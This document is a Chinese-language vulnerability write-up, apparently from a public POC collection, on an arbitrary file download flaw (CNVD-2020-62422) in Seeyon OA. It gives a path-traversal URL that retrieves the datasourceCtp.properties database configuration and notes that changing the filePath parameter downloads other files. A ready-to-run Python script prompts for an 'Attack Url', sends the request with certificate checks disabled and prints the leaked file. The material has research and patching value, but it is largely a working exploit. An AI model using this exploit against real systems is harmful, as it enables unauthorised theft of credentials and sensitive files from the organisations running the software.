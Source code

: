 # 致远OA-webmail.do任意文件下载-CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 致远OA A6-V5
>
> 致远OA A8-V5
>
> 致远OA G6

## 漏洞复现

访问 url  http://xxx.xxx.xxx.xxx/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties

存在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![](致远OA-webmail.do任意文件下载-CNVD-2020-62422.assets/16273634866256719.jpg)

更改参数 filePath 可下载其他文件

##  漏洞利用POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                          \033[0m')
    print('+  \033[34mVersion: 致远OA多个版本				                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "workflow" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](致远OA-webmail.do任意文件下载-CNVD-2020-62422.assets/1627363486909858.jpg)

## Goby & POC

> [!NOTE]
>
> 致远OA-webmail.do任意文件下载-CNVD-2020-62422

![](致远OA-webmail.do任意文件下载-CNVD-2020-62422.assets/1627363487232227.jpg)